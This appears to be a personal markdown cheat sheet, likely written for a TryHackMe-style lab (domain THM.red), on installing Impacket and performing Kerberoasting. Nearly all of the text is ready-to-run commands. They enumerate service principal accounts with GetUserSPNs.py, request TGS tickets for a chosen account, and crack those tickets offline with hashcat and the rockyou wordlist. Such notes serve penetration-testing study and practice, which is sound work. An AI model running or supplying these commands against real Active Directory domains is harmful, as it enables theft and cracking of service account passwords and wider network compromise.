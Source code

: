 # Impacket 

Note: This doc should be placed in an eventual AD folder, once I get that far.
## Install

install impacket with:
`pipenv install impacket`
this will create a virtualenv in `/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}`
you can then:
```
export IMPACKET_SCRIPTS=$(pipenv --venv)/bin
```
Now, you can run impacket scripts with:
```
python3  ${IMPACKET_SCRIPTS}/${script} ...
```

## Kerberoasting

check for SPN accounts:
```
python3 ${IMPACKET_SCRIPTS}/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found user:

```
python3 $IMPACKET_SCRIPTS/GetUserSPNs.py -dc-ip 10.10.70.248 THM.red/${DOMAIN_USER}:${DOMAIN_USER_PW}! -request-user ${SPN} -outputfile tgs.txt 


```

Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```



